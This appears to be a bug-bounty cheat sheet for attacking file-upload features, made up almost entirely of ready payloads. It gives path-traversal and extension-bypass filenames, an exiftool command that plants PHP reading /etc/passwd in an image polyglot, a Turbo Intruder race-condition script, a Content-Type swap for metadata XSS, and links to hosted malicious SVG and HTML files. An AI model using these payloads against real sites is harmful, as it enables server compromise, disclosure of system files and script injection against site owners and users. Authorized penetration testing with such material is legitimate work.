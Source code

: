# Upload Files

## Directory Traversal
```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Disposition: form-data; name="avatar"; filename="..%2exploit.php"
```
## Content-Type
Content-Type to image/jpeg.

## Extension blacklist bypass

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
```

## Metadata
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
## Race condition

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## Test metadata
Upload xss_comment_exif_metadata_double_quote.png
```http
Content-Type:image/png - Content-Type: text/html
```
##### Reference: https://hackerone.com/reports/964550

## If is possible to change src=
Add urls:
* https://angeljuanma.github.io/bug-bounty/evil.svg
* https://angeljuanma.github.io/bug-bounty/xss.svg
* https://angeljuanma.github.io/bug-bounty/xss.html

